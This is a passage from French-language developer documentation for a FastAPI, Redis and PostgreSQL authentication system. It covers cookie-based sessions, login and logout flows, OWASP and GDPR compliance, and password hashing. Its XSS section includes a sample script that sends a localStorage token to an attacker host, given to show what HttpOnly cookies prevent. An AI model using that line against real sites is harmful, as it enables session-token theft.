            logger.debug("no_sessions_for_user", user_id=user_id)
            return 0

        # Delete all session keys
        keys_to_delete = [f"session:{sid.decode()}" for sid in session_ids]
        deleted_count = await self.redis.delete(*keys_to_delete)

        # Delete the index itself
        await self.redis.delete(user_sessions_key)

        logger.info(
            "all_user_sessions_deleted",
            user_id=user_id,
            session_count=deleted_count,
            indexed_lookup=True,
        )

        return deleted_count
```

**Points Clés** :
- ✅ **GDPR Data Minimization** : sessions contiennent uniquement `user_id`
- ✅ **Performance optimisée** : index par user pour logout-all (80× plus rapide)
- ✅ **TTL synchronisé** : Redis TTL = cookie max_age
- ✅ **Memory efficient** : ~100 bytes/session (90% réduction vs full user data)

---

## 📡 Flows d'Authentification

### Flow 1: Registration avec Email/Password



**Étapes détaillées** :

1. **Frontend POST /auth/register** avec `{email, password, full_name, timezone?, language?, remember_me?}`
2. **AuthService validation** :
   - Vérifie email unique (`get_by_email` → None)
   - Hash password avec bcrypt (`get_password_hash`)
3. **User creation** :
   - Insère dans PostgreSQL avec `is_active=False, is_verified=False`
   - Génère JWT verification token
   - Envoie email de vérification
4. **Session creation (BFF Pattern)** :
   - `SessionStore.create_session` → Redis `session:{uuid}`
   - Index dans `user:{user_id}:sessions` SET
   - TTL = 7 jours (ou 30 jours si `remember_me=True`)
5. **Cookie setting** :
   - HTTP-only cookie `lia_session={session_id}`
   - Secure=True (HTTPS uniquement)
   - SameSite=Lax (CSRF protection)
6. **Response** : `AuthResponseBFF{user, message}` (pas de tokens)

---

### Flow 2: Login avec Email/Password



**Étapes détaillées** :

1. **Frontend POST /auth/login** avec `{email, password, remember_me}`
2. **AuthService validation** :
   - Récupère user par email
   - Vérifie `hashed_password` existe (OAuth users n'ont pas de password)
   - Vérifie password avec `verify_password(plain, hashed)` bcrypt
3. **Credentials check** :
   - ✅ Valid → continue
   - ❌ Invalid → `raise_invalid_credentials()` (401)
4. **Session creation** (identique au flow register)
5. **Cookie setting** (identique au flow register)
6. **Response** : `AuthResponseBFF{user, message}`

---

### Flow 3: Authenticated Request



**Étapes détaillées** :

1. **Browser envoie Cookie** : `lia_session={session_id}` automatiquement
2. **Dependency injection** : `user: User = Depends(get_current_active_session)`
3. **Session validation** :
   - Redis GET `session:{session_id}` → `{user_id, remember_me, created_at}`
   - Si None → `raise_session_invalid()` (401)
4. **User fetch** (PostgreSQL = source de vérité) :
   - Query optimisée : `SELECT * FROM users WHERE id=? AND is_active=True`
   - Primary key index → ~0.3-0.5ms
5. **Type narrowing** :
   - Si user None → orphan session → DELETE session + `raise_session_invalid()`
   - Sinon → return `User` object
6. **Business logic** : endpoint exécuté avec `User` authentifié
7. **Total overhead** : ~0.5-1ms (Redis + PostgreSQL)

---

### Flow 4: Logout (Single Device)

```mermaid
sequenceDiagram
    participant Browser
    participant API
    participant SessionStore
    participant Redis

    Browser->>API: POST /auth/logout<br>Cookie: lia_session={session_id}
    activate API

    API->>SessionStore: delete_session(session_id)
    activate SessionStore
    SessionStore->>Redis: GET session:{session_id}
    Redis-->>SessionStore: {user_id, ...}
    SessionStore->>Redis: DELETE session:{session_id}
    Redis-->>SessionStore: 1 (deleted)
    SessionStore->>Redis: SREM user:{user_id}:sessions {session_id}
    Redis-->>SessionStore: 1 (removed from index)
    SessionStore-->>API: True
    deactivate SessionStore

    API->>API: response.delete_cookie("lia_session")

    API-->>Browser: 200 OK<br>{message: "Successfully logged out"}<br>Set-Cookie: lia_session=; Max-Age=0
    deactivate API

    Browser->>Browser: Cookie cleared
```

**Étapes détaillées** :

1. **Frontend POST /auth/logout** (cookie envoyé automatiquement)
2. **Session deletion** :
   - Redis DELETE `session:{session_id}`
   - Redis SREM `user:{user_id}:sessions` {session_id} (remove from index)
3. **Cookie clearing** :
   - `response.delete_cookie("lia_session")`
   - Browser reçoit cookie avec Max-Age=0
4. **Immediate effect** : next request → 401 (session deleted)

---

### Flow 5: Logout All Devices

```mermaid
sequenceDiagram
    participant Browser
    participant API
    participant SessionStore
    participant Redis

    Browser->>API: POST /auth/logout-all<br>Cookie: lia_session={session_id}
    activate API

    API->>SessionStore: delete_all_user_sessions(user_id)
    activate SessionStore

    SessionStore->>Redis: SMEMBERS user:{user_id}:sessions
    Redis-->>SessionStore: [session1, session2, session3, ...]

    SessionStore->>Redis: DELETE session:session1 session:session2 session:session3 ...
    Redis-->>SessionStore: 5 (deleted count)

    SessionStore->>Redis: DELETE user:{user_id}:sessions
    Redis-->>SessionStore: 1 (index deleted)

    SessionStore-->>API: 5 (session count)
    deactivate SessionStore

    API->>API: response.delete_cookie("lia_session")

    API-->>Browser: 200 OK<br>{message: "Logged out from all devices"}<br>Set-Cookie: lia_session=; Max-Age=0
    deactivate API

    Note over Browser,Redis: All other devices will get 401 on next request
```

**Étapes détaillées** :

1. **Frontend POST /auth/logout-all**
2. **Bulk session deletion** :
   - Redis SMEMBERS `user:{user_id}:sessions` → `[session1, session2, ...]`
   - Redis DELETE `session:session1`, `session:session2`, ... (bulk)
   - Redis DELETE `user:{user_id}:sessions` (delete index)
3. **Cookie clearing** (current device)
4. **Performance** :
   - Sans index : O(N) scan de toutes les sessions (~1200ms pour 100k sessions)
   - Avec index : O(1) lookup (~15ms) → **80× plus rapide**

---

## 🛡️ Session Management

### 1. Session Helpers

**Localisation** : [`apps/api/src/core/session_helpers.py`](../../apps/api/src/core/session_helpers.py)

**Fonction centrale** : `create_authenticated_session_with_cookie`

```python
"""
Helper functions for session management in BFF Pattern.

Provides utilities for creating authenticated sessions with HTTP-only cookies.
"""

from typing import Any, Literal, cast

import structlog
from fastapi import Response

from src.core.config import settings
from src.infrastructure.cache.redis import get_redis_session
from src.infrastructure.cache.session_store import SessionStore, UserSession

logger = structlog.get_logger(__name__)


async def create_authenticated_session_with_cookie(
    response: Response,
    user_id: str,
    remember_me: bool = False,
    event_name: str = "session_created",
    extra_context: dict[str, Any] | None = None,
) -> UserSession:
    """
    Create authenticated session and set HTTP-only cookie.

    This is the standard flow for register/login/OAuth after user authentication.
    Centralizes session creation logic to eliminate code duplication across auth endpoints.

    Handles:
    1. Session creation in Redis with appropriate TTL
    2. Cookie setting with security flags (HttpOnly, Secure, SameSite)
    3. TTL synchronization between Redis session and browser cookie
    4. Structured logging with contextual information

    Args:
        response: FastAPI Response object to set cookie on
        user_id: User ID to create session for
        remember_me: If True, uses extended TTL (30 days), else short TTL (7 days)
        event_name: Log event name for structured logging (e.g., "user_registered_bff")
        extra_context: Additional context fields for logging (e.g., {"email": "user@example.com"})

    Returns:
        UserSession: Created session object with minimal data (user_id, session_id)

    Security notes:
    - HTTP-only cookie prevents XSS attacks (JavaScript cannot access)
    - Secure flag enforces HTTPS in production
    - SameSite=Lax prevents CSRF attacks
    - Session stored server-side in Redis, only session ID in cookie
    - GDPR compliant: minimal data storage (no PII in Redis)

    Performance:
    - Session creation: ~0.1-0.5ms (Redis SETEX + SADD for index)
    - Cookie setting: negligible (HTTP header)
    - Total overhead: <1ms

    Usage:
        # Register/Login
        await create_authenticated_session_with_cookie(
            response=response,
            user_id=str(user.id),
            remember_me=data.remember_me,
            event_name="user_registered_bff",
            extra_context={"email": user.email},
        )

        # OAuth callback
        await create_authenticated_session_with_cookie(
            response=response,
            user_id=str(user.id),
            remember_me=False,
            event_name="oauth_callback_success_bff",
            extra_context={"email": user.email, "redirect_to": redirect_url},
        )

    Best practices:
    - Follows DRY principle (single source of truth)
    - Uses structlog context binding pattern (2025 best practice)
    - Extensible via extra_context without signature changes (Open/Closed principle)
    """
    # Create session in Redis with user session index
    redis = await get_redis_session()
    session_store = SessionStore(redis)

    session = await session_store.create_session(
        user_id=user_id,
        remember_me=remember_me,
    )

    # Calculate cookie TTL (must match Redis TTL for consistency)
    session_ttl = (
        settings.session_cookie_max_age_remember if remember_me else settings.session_cookie_max_age
    )

    # Set HTTP-only session cookie with security flags
    response.set_cookie(
        key=settings.session_cookie_name,
        value=session.session_id,
        max_age=session_ttl,
        secure=settings.session_cookie_secure,
        httponly=settings.session_cookie_httponly,
        samesite=cast(Literal["lax", "strict", "none"], settings.session_cookie_samesite),
        domain=settings.session_cookie_domain,
    )

    # Build structured logging context
    context: dict[str, Any] = {
        "user_id": user_id,
        "session_id": session.session_id,
        "remember_me": remember_me,
        "session_ttl_days": session_ttl / 86400,
    }

    # Merge with extra context if provided (extra_context takes precedence for custom fields)
    if extra_context:
        context.update(extra_context)

    # Log session creation with structured context
    logger.info(event_name, **context)

    return session
```

**Points Clés** :
- ✅ **DRY Principle** : fonction centrale utilisée par register/login/OAuth
- ✅ **TTL synchronization** : Redis TTL = cookie max_age
- ✅ **Security flags** : httponly=True, secure=True, samesite="lax"
- ✅ **Extensible logging** : `extra_context` pour contextes personnalisés

---

### 2. Session Dependencies

**Localisation** : [`apps/api/src/core/session_dependencies.py`](../../apps/api/src/core/session_dependencies.py)

**Responsabilité** : FastAPI dependencies pour authentification automatique.

#### Code Complet Annoté

```python
"""
Session-based authentication dependencies for BFF pattern.
Replaces JWT bearer token authentication with HTTP-only cookies.

Architecture (GDPR/OWASP Compliant - 2024):
    1. Cookie contains session_id (opaque token, no PII)
    2. Redis stores minimal session: {user_id, remember_me, created_at}
    3. PostgreSQL is single source of truth for User data
    4. Each authenticated request fetches User from DB

Performance:
    - Redis session check: ~0.1-0.5ms
    - PostgreSQL user fetch: ~0.3-0.5ms (optimized query, PRIMARY KEY index)
    - Total overhead: ~0.5-1ms per request

Security:
    - No PII in Redis (OWASP Session Management compliance)
    - No PII in cookies (HTTP-only, SameSite=Lax)
    - Immediate session revocation (DELETE from Redis)
    - No desynchronization (PostgreSQL = source of truth)
"""

from typing import Annotated
from uuid import UUID

import structlog
from fastapi import Cookie, Depends
from sqlalchemy.ext.asyncio import AsyncSession

from src.core.dependencies import get_db
from src.core.exceptions import (
    raise_admin_required,
    raise_session_invalid,
    raise_user_inactive,
    raise_user_not_authenticated,
    raise_user_not_verified,
)
from src.domains.auth.models import User
from src.domains.users.repository import UserRepository
from src.infrastructure.cache.redis import get_redis_session
from src.infrastructure.cache.session_store import SessionStore

logger = structlog.get_logger(__name__)


async def get_session_store() -> SessionStore:
    """
    Dependency to get SessionStore instance.

    Returns:
        SessionStore instance with Redis connection
    """
    redis = await get_redis_session()
    return SessionStore(redis)


async def get_current_session(
    lia_session: Annotated[str | None, Cookie()] = None,
    session_store: SessionStore = Depends(get_session_store),
    db: AsyncSession = Depends(get_db),
) -> User:
    """
    Get current user from session cookie (GDPR/OWASP compliant).

    BFF Pattern with minimal sessions:
    1. Validates session_id in Redis (minimal: user_id + remember_me)
    2. Fetches User from PostgreSQL (single source of truth)
    3. Returns User object (not UserSession - architectural change)

    Performance:
        - Redis GET: ~0.1-0.5ms (session validation)
        - PostgreSQL SELECT: ~0.3-0.5ms (optimized query, no JOINs)
        - Total: ~0.5-1ms per authenticated request

    Args:
        lia_session: Session ID from HTTP-only cookie
        session_store: SessionStore dependency
        db: Database session dependency (NEW)

    Returns:
        User object (ORM model) - CHANGED from UserSession

    Raises:
        HTTPException: 401 if not authenticated or user not found/inactive

    Breaking Change:
        Previously returned UserSession, now returns User.
        Callers must update: session.user_id → user.id, session.email → user.email
    """
    if not lia_session:
        logger.debug("authentication_required_no_cookie")
        raise_user_not_authenticated()

    # Type narrowing: lia_session is str (not None) after check
    assert lia_session is not None

    # Step 1: Validate minimal session in Redis
    session = await session_store.get_session(lia_session)

    if not session:
        raise_session_invalid()

    # Type narrowing: session is UserSession (not None) after check
    assert session is not None

    # Step 2: Fetch User from PostgreSQL (single source of truth)
    user_repo = UserRepository(db)
    user = await user_repo.get_user_minimal_for_session(UUID(session.user_id))

    if not user:
        # Orphan session (user deleted or deactivated) - cleanup
        await session_store.delete_session(session.session_id)
        logger.warning(
            "orphan_session_deleted",
            session_id=session.session_id,
            user_id=session.user_id,
        )
        raise_session_invalid()

    # Type narrowing: user is User (not None) after check
    assert user is not None

    logger.debug(
        "session_authenticated_user_fetched",
        session_id=session.session_id,
        user_id=str(user.id),
        email=user.email,
        is_verified=user.is_verified,
        is_superuser=user.is_superuser,
    )

    return user


async def get_current_active_session(
    user: User = Depends(get_current_session),
) -> User:
    """
    Get current active user (CHANGED: returns User, not UserSession).

    Requires user to be active (not disabled/deleted).

    Note:
        With optimized query (get_user_minimal_for_session), inactive users
        are already filtered at DB level. This check is defensive/redundant.

    Args:
        user: Current user from get_current_session (CHANGED from session)

    Returns:
        User object (CHANGED from UserSession)

    Raises:
        HTTPException: 403 if user is inactive (defensive check)

    Breaking Change:
        Parameter renamed: session → user
        Return type changed: UserSession → User
    """
    # Defensive check (already filtered in get_user_minimal_for_session)
    if not user.is_active:
        raise_user_inactive(user.id)

    return user


async def get_current_verified_session(
    user: User = Depends(get_current_active_session),
) -> User:
    """
    Get current verified user (CHANGED: returns User, not UserSession).

    Requires user to have verified their email.

    Args:
        user: Current user from get_current_active_session (CHANGED from session)

    Returns:
        User object (CHANGED from UserSession)

    Raises:
        HTTPException: 403 if user is not verified

    Breaking Change:
        Parameter renamed: session → user
        Return type changed: UserSession → User
    """
    if not user.is_verified:
        raise_user_not_verified(user.id)

    return user


async def get_current_superuser_session(
    user: User = Depends(get_current_active_session),
) -> User:
    """
    Get current superuser (CHANGED: returns User, not UserSession).

    Requires user to be a superuser (admin).

    Args:
        user: Current user from get_current_active_session (CHANGED from session)

    Returns:
        User object (CHANGED from UserSession)

    Raises:
        HTTPException: 403 if user is not a superuser

    Breaking Change:
        Parameter renamed: session → user
        Return type changed: UserSession → User
    """
    if not user.is_superuser:
        raise_admin_required(user.id)

    return user


async def get_optional_session(
    lia_session: Annotated[str | None, Cookie()] = None,
    session_store: SessionStore = Depends(get_session_store),
    db: AsyncSession = Depends(get_db),
) -> User | None:
    """
    Get current user if authenticated, None otherwise (CHANGED: returns User).

    Useful for endpoints that work for both authenticated and anonymous users.

    Args:
        lia_session: Session ID from HTTP-only cookie
        session_store: SessionStore dependency
        db: Database session dependency (NEW)

    Returns:
        User object or None if not authenticated (CHANGED from UserSession)

    Breaking Change:
        Return type changed: UserSession | None → User | None
    """
    if not lia_session:
        return None

    session = await session_store.get_session(lia_session)
    if not session:
        return None

    # Fetch User from PostgreSQL
    user_repo = UserRepository(db)
    user = await user_repo.get_user_minimal_for_session(UUID(session.user_id))

    if user:
        logger.debug(
            "optional_user_found",
            session_id=session.session_id,
            user_id=str(user.id),
            email=user.email,
        )
    else:
        # Cleanup orphan session
        await session_store.delete_session(session.session_id)
        logger.debug(
            "optional_session_orphan_cleaned",
            session_id=session.session_id,
            user_id=session.user_id,
        )

    return user
```

**Points Clés** :
- ✅ **Dependency injection FastAPI** : `user: User = Depends(get_current_active_session)`
- ✅ **PostgreSQL = source de vérité** : user fetch on demand
- ✅ **Orphan session cleanup** : si user deleted/deactivated
- ✅ **Hierarchy dependencies** : `get_current_session` → `get_current_active_session` → `get_current_verified_session` → `get_current_superuser_session`

**Usage dans les endpoints** :

```python
from fastapi import APIRouter, Depends
from src.core.session_dependencies import get_current_active_session
from src.domains.auth.models import User

router = APIRouter()

@router.get("/protected")
async def protected_endpoint(
    user: User = Depends(get_current_active_session),  # ← Automatic authentication
) -> dict:
    """Endpoint requiring authenticated user."""
    return {"message": f"Hello {user.email}"}

@router.get("/admin-only")
async def admin_endpoint(
    user: User = Depends(get_current_superuser_session),  # ← Requires superuser
) -> dict:
    """Endpoint requiring superuser."""
    return {"message": "Admin panel"}

@router.get("/optional-auth")
async def optional_auth_endpoint(
    user: User | None = Depends(get_optional_session),  # ← Works for both auth and anon
) -> dict:
    """Endpoint working for both authenticated and anonymous users."""
    if user:
        return {"message": f"Welcome back {user.email}"}
    return {"message": "Welcome guest"}
```

---

## 🔐 Sécurité & Conformité

### GDPR Compliance (RGPD)

**Principe 1: Data Minimization (Article 5 GDPR)**

```python
# ❌ BEFORE (Legacy): Full user data in Redis
{
    "session_id": "uuid",
    "user_id": "uuid",
    "email": "user@example.com",  # ← PII
    "full_name": "John Doe",      # ← PII
    "timezone": "Europe/Paris",
    "language": "fr",
    "is_verified": true,
    # ... 10+ fields
}
# Memory: ~500 bytes/session
# GDPR: ❌ PII in cache (non-compliant)

# ✅ AFTER (BFF Pattern): Minimal session
{
    "user_id": "uuid",            # ← Reference only (no PII)
    "remember_me": false,
    "created_at": "2025-11-14T10:30:00Z"
}
# Memory: ~100 bytes/session (90% reduction)
# GDPR: ✅ No PII in Redis (compliant)
```

**Principe 2: Single Source of Truth**



**Avantages** :
- ✅ **GDPR Article 5** : data minimization
- ✅ **GDPR Article 17** : right to erasure (delete user → sessions automatically invalid)
- ✅ **No desynchronization** : user data changes immediately reflected
- ✅ **Memory efficiency** : 90% Redis memory reduction

---

### OWASP Session Management 2024

**Conformité OWASP ASVS 4.0** (Application Security Verification Standard)

| Requirement | Implementation | Status |
|-------------|----------------|--------|
| **V3.2.1** Session tokens generated with CSPRNG | `uuid4()` (cryptographically secure) | ✅ |
| **V3.2.2** Session tokens unpredictable | UUID v4 (128-bit entropy) | ✅ |
| **V3.2.3** Tokens not in URLs | HTTP-only cookie (not query param) | ✅ |
| **V3.3.1** Logout invalidates session | `SessionStore.delete_session()` | ✅ |
| **V3.3.2** Logout from all devices | `SessionStore.delete_all_user_sessions()` | ✅ |
| **V3.3.3** Session rotation on login | `old_session_id` parameter (PROD) | ✅ |
| **V3.4.1** Cookie Secure flag | `secure=True` (HTTPS only) | ✅ |
| **V3.4.2** Cookie HttpOnly flag | `httponly=True` (no JS access) | ✅ |
| **V3.4.3** Cookie SameSite attribute | `samesite="lax"` (CSRF protection) | ✅ |
| **V3.5.1** Session timeout | TTL in Redis (7/30 days) | ✅ |
| **V3.5.2** Absolute timeout | `created_at` tracking | ✅ |

**Cookie Security Configuration** :

```python
# apps/api/src/core/config.py
class Settings(BaseSettings):
    # Session cookie settings (BFF Pattern - OAuth 2.1 compliant)
    session_cookie_name: str = "lia_session"
    session_cookie_max_age: int = 604800  # 7 days (default)
    session_cookie_max_age_remember: int = 2592000  # 30 days (remember me)
    session_cookie_secure: bool = True  # HTTPS only (OWASP V3.4.1)
    session_cookie_httponly: bool = True  # No JS access (OWASP V3.4.2)
    session_cookie_samesite: str = "lax"  # CSRF protection (OWASP V3.4.3)
    session_cookie_domain: str | None = None  # Domain restriction
```

---

### XSS Protection

**Problème JWT classique** :

```javascript
// ❌ VULNERABLE: JWT in localStorage
localStorage.setItem('access_token', 'eyJhbGciOi...');

// XSS attack steals token
<script>
  fetch('https://attacker.com/steal?token=' + localStorage.getItem('access_token'));
</script>
```

**Solution BFF Pattern** :

```javascript
// ✅ SECURE: HTTP-only cookie
// Cookie: lia_session=uuid (inaccessible to JavaScript)

// XSS attack cannot access cookie
<script>
  console.log(document.cookie);  // "" (HttpOnly prevents access)
</script>
```

**Résultat** :
- ✅ **XSS ne peut pas voler la session** : `HttpOnly=True`
- ✅ **Token never exposed to frontend** : uniquement dans cookie HTTP header
- ✅ **Automatic cookie sending** : browser gère, pas le JS

---

### CSRF Protection

**Mécanisme SameSite Cookie** :

```python
response.set_cookie(
    key="lia_session",
    value=session_id,
    samesite="lax",  # ← CSRF protection
    # ...
)
```

**Comportement `SameSite=Lax`** :

| Request Type | Cookie Sent? | Example |
|--------------|--------------|---------|
| **Top-level navigation** (GET) | ✅ Yes | User clicks link `<a href="https://app.com">` |
| **Top-level POST** | ✅ Yes | User submits form `<form method="POST">` |
| **Cross-site requests** (iframe, fetch) | ❌ No | Attacker site `` |
| **AJAX from same origin** | ✅ Yes | Frontend `fetch('/api/conversations')` |

**Pourquoi `Lax` et pas `Strict` ?**
- `Strict` bloque même les top-level navigations (mauvaise UX)
- `Lax` protège contre CSRF tout en permettant navigation normale
- OAuth redirects nécessitent `Lax` (Google callback)

**Attaque CSRF bloquée** :

```html
<!-- Attacker website: https://evil.com -->

<!-- Cookie NOT sent (SameSite=Lax) → 401 Unauthorized -->
```

---

### Session Rotation (PROD only)

En production, une **rotation de session** est effectuée après chaque login réussi pour prévenir les attaques de **session fixation** :

```python
# apps/api/src/core/session_helpers.py

async def create_authenticated_session_with_cookie(
    response: Response,
    user_id: str,
    remember_me: bool = False,
    old_session_id: str | None = None,  # Session rotation
) -> UserSession:
    """
    Session Rotation (PROD only):
    - Invalide l'ancienne session avant d'en créer une nouvelle
    - Empêche un attaquant de fixer une session ID à l'avance
    """
    if old_session_id and settings.is_production:
        await session_store.delete_session(old_session_id)
        logger.info(
            "session_rotated",
            old_session_id=old_session_id,
            user_id=user_id,
            reason="login_security",
        )
    # ... create new session
```

**Attaque Session Fixation** (sans rotation) :
1. Attaquant obtient un session ID (via URL ou cookie)
2. Attaquant force la victime à utiliser ce session ID
3. Victime se connecte (session devient authentifiée)
4. Attaquant utilise le même session ID → accès au compte

**Protection** : Rotation invalide l'ancien session ID après login.

---

### JTI Single-Use Tokens (PROD only)

Les tokens de **vérification d'email** et de **réinitialisation de mot de passe** utilisent un **JTI (JWT ID)** pour garantir l'usage unique :

```python
# apps/api/src/core/security/utils.py

async def verify_single_use_token(
    token: str,
    expected_type: str,
) -> tuple[dict[str, Any], str | None]:
    """
    Verify a single-use token (PROD only):
    1. Vérifie signature JWT + expiration
    2. Vérifie que le type correspond
    3. Vérifie que JTI n'est pas dans la blacklist Redis
    """
    payload = verify_token(token)

    if not payload or payload.get("type") != expected_type:
        raise_token_invalid(...)

    jti = payload.get("jti")
    if jti and await is_token_used(jti):
        raise_token_already_used(expected_type)  # i18n support

    return payload, jti
```

**Usage dans AuthService** :

```python
# apps/api/src/domains/auth/service.py

async def verify_email(self, token: str) -> UserResponse:
    # DRY helper: vérifie token + JTI (PROD only)
    payload, jti = await verify_single_use_token(token, "email_verification")

    # ... activate user ...

    # Blacklist JTI après succès (PROD only)
    if jti:
        await mark_token_used(jti, "email_verification")


async def reset_password(self, token: str, new_password: str) -> UserResponse:
    payload, jti = await verify_single_use_token(token, "password_reset")

    # ... update password ...

    if jti:
        await mark_token_used(jti, "password_reset")
```

**Constants** :

```python
# apps/api/src/core/constants.py
JTI_BLACKLIST_REDIS_PREFIX = "jti:used:"
JTI_BLACKLIST_TTL_SECONDS = 25 * 60 * 60  # 25h (token 24h + 1h buffer)
```

**Pourquoi PROD only ?** En développement, pouvoir réutiliser les tokens facilite les tests manuels.

---

### Password Security

**Hashing avec bcrypt** :

```python
from passlib.context import CryptContext

pwd_context = CryptContext(schemes=["bcrypt"], deprecated="auto")

def get_password_hash(password: str) -> str:
    """Hash password using bcrypt with auto-generated salt."""
    return pwd_context.hash(password)

def verify_password(plain_password: str, hashed_password: str) -> bool:
    """Verify password against bcrypt hash."""
    return pwd_context.verify(plain_password, hashed_password)
```

**Bcrypt Features** :
- ✅ **Adaptive hashing** : work factor configurable (résiste brute-force)
- ✅ **Auto salt generation** : unique salt par password
- ✅ **Industry standard** : OWASP recommended algorithm
- ✅ **Slow by design** : ~100-300ms (empêche rainbow tables)

**Password Policy** :

```python
# src/core/constants.py
PASSWORD_MIN_LENGTH = 8
PASSWORD_MAX_LENGTH = 128

# Validation in Pydantic schema
class UserRegisterRequest(BaseModel):
    password: str = Field(
        ...,
        min_length=PASSWORD_MIN_LENGTH,
        max_length=PASSWORD_MAX_LENGTH,
        description=f"User password ({PASSWORD_MIN_LENGTH}-{PASSWORD_MAX_LENGTH} characters)",
    )
```

**Recommendations** :
- ⚠️ **TODO**: Ajouter complexité password (uppercase, lowercase, digit, special char)
- ⚠️ **TODO**: Implémenter rate limiting sur `/auth/login` (prévenir brute-force)
- ⚠️ **TODO**: Implémenter password breach check (Have I Been Pwned API)

---

## 👤 User Model & Repository

### User Model

**Localisation** : [`apps/api/src/domains/auth/models.py`](../../apps/api/src/domains/auth/models.py)

```python
"""
Authentication domain models (database entities).
"""

from sqlalchemy import String
from sqlalchemy.orm import Mapped, mapped_column, relationship

from src.infrastructure.database.models import BaseModel


class User(BaseModel):
    """
    User model for authentication and profile.
    """

    __tablename__ = "users"

    email: Mapped[str] = mapped_column(String(255), unique=True, nullable=False, index=True)
    hashed_password: Mapped[str | None] = mapped_column(
        String(255), nullable=True
    )  # Nullable for OAuth-only users
    full_name: Mapped[str | None] = mapped_column(String(255), nullable=True)
    is_active: Mapped[bool] = mapped_column(
        default=False, nullable=False
    )  # Requires email verification
    is_verified: Mapped[bool] = mapped_column(default=False, nullable=False)
    is_superuser: Mapped[bool] = mapped_column(default=False, nullable=False)

    # OAuth fields
    oauth_provider: Mapped[str | None] = mapped_column(
        String(50), nullable=True
    )  # 'google', 'github', etc.
    oauth_provider_id: Mapped[str | None] = mapped_column(
        String(255), nullable=True
    )  # Provider's user ID
    picture_url: Mapped[str | None] = mapped_column(
        String(2048), nullable=True
    )  # Profile picture URL - 2048 chars to handle OAuth provider URLs with parameters

    # User preferences
    timezone: Mapped[str] = mapped_column(
        String(50),
        nullable=False,
        server_default="Europe/Paris",
        comment="User timezone (IANA timezone name) for personalized timestamp display",
    )  # Default: Europe/Paris (French users)
    language: Mapped[str] = mapped_column(
        String(10),
        nullable=False,
        server_default="fr",
        comment="User preferred language (ISO 639-1 code: fr, en, es, de, it, zh-CN) for emails and notifications",
    )  # Default: fr (French)

    # Relationships
    connectors: Mapped[list["Connector"]] = relationship(
        back_populates="user", cascade="all, delete-orphan"
    )
    conversations: Mapped[list["Conversation"]] = relationship(
        back_populates="user", cascade="all, delete-orphan"
    )

    def __repr__(self) -> str:
        return f"<User(id={self.id}, email={self.email})>"
```

**Points Clés** :
- ✅ **Hybrid authentication** : `hashed_password` nullable (OAuth users)
- ✅ **Email verification** : `is_active=False` par défaut
- ✅ **OAuth support** : `oauth_provider`, `oauth_provider_id`, `picture_url`
- ✅ **User preferences** : `timezone`, `language` (i18n support)
- ✅ **Cascade delete** : `connectors`, `conversations` deleted with user

---

### UserRepository Optimized Query

**Localisation** : [`apps/api/src/domains/users/repository.py`](../../apps/api/src/domains/users/repository.py:100-120)

```python
async def get_user_minimal_for_session(self, user_id: UUID) -> User | None:
    """
    Get user for session validation (optimized query for BFF Pattern).

    This query is executed on EVERY authenticated request, so it must be:
    - Fast (~0.3-0.5ms with PRIMARY KEY index)
    - Minimal (no JOINs, no eager loading)
    - Filtered (only active users)

    Args:
        user_id: User UUID

    Returns:
        User object or None if not found/inactive

    Performance:
        - PRIMARY KEY index on id
        - No relationships loaded (selectinload removed)
        - WHERE clause filters inactive users at DB level
        - ~0.3-0.5ms per query
    """
    result = await self.db.execute(
        select(User).where(
            User.id == user_id,
            User.is_active == True,  # Filter inactive users at DB level
        )
    )
    return result.scalar_one_or_none()
```

**Optimisations** :
- ✅ **PRIMARY KEY index** : `WHERE User.id = ?` (fastest query possible)
- ✅ **No JOINs** : pas de relationships eager-loaded
- ✅ **DB-level filtering** : `User.is_active == True` (évite check Python)
- ✅ **Performance** : ~0.3-0.5ms par requête authentifiée

---

## 🌐 API Routes

### Auth Router

**Localisation** : [`apps/api/src/domains/auth/router.py`](../../apps/api/src/domains/auth/router.py)

**Endpoints disponibles** :

| Endpoint | Method | Auth Required | Description |
|----------|--------|---------------|-------------|
| `/auth/register` | POST | ❌ | Inscription email/password |
| `/auth/login` | POST | ❌ | Connexion email/password |
| `/auth/logout` | POST | ✅ | Déconnexion (single device) |
| `/auth/logout-all` | POST | ✅ | Déconnexion (all devices) |
| `/auth/verify-email` | POST | ❌ | Vérification email avec token |
| `/auth/request-reset` | POST | ❌ | Demande reset password |
| `/auth/confirm-reset` | POST | ❌ | Confirmation reset password |
| `/auth/refresh` | POST | ❌ | **REMOVED** (HTTP 410 Gone) |
| `/auth/oauth/google/initiate` | GET | ❌ | Initiation OAuth Google |
| `/auth/oauth/google/callback` | GET | ❌ | Callback OAuth Google |

#### Exemple: POST /auth/register

```python
@router.post(
    "/register",
    response_model=AuthResponseBFF,
    status_code=status.HTTP_201_CREATED,
    summary="Register new user (BFF Pattern)",
    description="Register a new user with email and password. Creates session and sets HTTP-only cookie. "
    "Sends verification email. BFF Pattern: No tokens exposed to frontend.",
)
async def register(
    data: UserRegisterRequest,
    response: Response,
    db: AsyncSession = Depends(get_db),
) -> AuthResponseBFF:
    """
    Register a new user with email and password using BFF Pattern.

    Flow:
    1. Validates email is not already registered
    2. Hashes password securely
    3. Creates user in database
    4. Sends verification email
    5. Creates session in Redis
    6. Sets HTTP-only session cookie
    7. Returns user info (no tokens)

    Security (BFF Pattern):
    - No JWT tokens in response body
    - Session stored server-side in Redis
    - HTTP-only cookie prevents XSS
    - SameSite=Lax prevents CSRF
    """
    service = AuthService(db)
    try:
        user_response = await service.register(data)

        # Create session with HTTP-only cookie (BFF Pattern)
        await create_authenticated_session_with_cookie(
            response=response,
            user_id=str(user_response.id),
            remember_me=data.remember_me,
            event_name="user_registered_bff",
            extra_context={"email": user_response.email},
        )

        # Track successful registration
        auth_attempts_total.labels(method="register", status="success").inc()
        user_registrations_total.labels(provider="password", status="success").inc()

        return AuthResponseBFF(
            user=user_response,
            message="Registration successful",
        )
    except HTTPException:
        # Track failed registration
        auth_attempts_total.labels(method="register", status="error").inc()
        user_registrations_total.labels(provider="password", status="error").inc()
        raise
```

**Request Example** :

```bash
POST /api/v1/auth/register HTTP/1.1
Content-Type: application/json

{
  "email": "user@example.com",
  "password": "SecureP@ssw0rd",
  "full_name": "John Doe",
  "timezone": "Europe/Paris",
  "language": "fr",
  "remember_me": false
}
```

**Response Example** :

```http
HTTP/1.1 201 Created
Content-Type: application/json
Set-Cookie: lia_session=550e8400-e29b-41d4-a716-446655440000; Max-Age=604800; HttpOnly; Secure; SameSite=Lax

{
  "user": {
    "id": "123e4567-e89b-12d3-a456-426614174000",
    "email": "user@example.com",
    "full_name": "John Doe",
    "timezone": "Europe/Paris",
    "language": "fr",
    "is_active": false,
    "is_verified": false,
